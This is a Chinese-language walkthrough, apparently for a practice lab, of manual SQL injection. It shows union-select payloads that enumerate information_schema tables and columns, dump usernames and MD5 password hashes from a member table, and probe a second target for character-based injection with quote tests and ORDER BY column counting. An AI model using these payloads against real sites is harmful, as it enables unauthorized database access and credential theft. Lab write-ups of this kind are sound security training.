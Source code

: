 ```
id=-1 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'
```
爆出数据表:`StormGroup_member`,`notice`
根据表名称的英文意思,我们可以得知`StormGroup_member`是我所需要的表

## 爆出字段
同样使用`information_schema`,由于已经查询出数据库可以用库作为限定条件查询这个库包中含的所有字段.

```
id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='stormgroup_member'
```
查看字段可以得出我们需要的两个字段:name,password
## 爆出数据
直接从数据表中使用`group_concat()`函数查询出这两个字段的所有数据行

```
id=1 union select 1,group_concat(name),group_concat(password),4 from mozhe_Discuz_StormGroup.StormGroup
```
查询出两行对应的`name`和`password`.由于`password`是md5密文直接搜索引擎找个md5解密网站解密

## 使用查询处的账号登录
尝试第二个账户可以登录,得到key,目的达成.

# 手工注入 字符型注入 回显 单引号
注入点:http://219.153.49.228:44930/new_list.php?id=tingjigonggao(肯定已经无法访问)
本例子无法给出测试站点,但是可以直接通过我的描述理解.且本例子和上一个例子(数字注入)十分相似,会适当简略讲解

## 确定注入点
首页无,在公告页面判断有注入点
初步使用单引号判断页面产生变化,有注入点
然后使用`' and '1'='1`和`' and '1'='2`两个返回页面不同第一个正常第二个异常,判断注入点确实存在字符注入

## 判断字段数目

```
' order by 5 --+  
```
1-4都返回正常页面,在5的时候返回错误页面,判断字段数目为4

## 判断页面显示字段位置

```
haha' union select 1,2,3,4 --+ 
```
显示2,3 判断字段位置为2,3位
